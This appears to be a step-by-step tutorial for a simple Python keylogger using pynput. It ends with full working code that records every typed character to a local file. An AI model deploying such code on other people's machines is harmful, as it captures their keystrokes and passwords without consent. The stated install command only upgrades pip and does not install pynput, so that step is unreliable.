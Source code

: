 ```yaml
---
layout: default
---
```


# Installing And Importing The Required Module And Packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _terminal_ using the following command:
>
> ```bash
> python.exe -m pip install --upgrade pip
> ```

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating A Function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main Code

This block of code sets up the keyboard listener, starts it running in the background, by creating a new _Listener_ object from the _keyboard_ module. The _on_press_ parameter is set to the _keyPressed_ function we defined earlier. This means that every time a key is pressed, the _keyPressed_ function will be called with the key as its argument. The main program runs indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.


```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# The Full Code

```python
# Import the keyboard module from pynput library
from pynput import keyboard


def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")


# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# Contents Of keyfile.txt

![Branching](keyloggerFile.png)


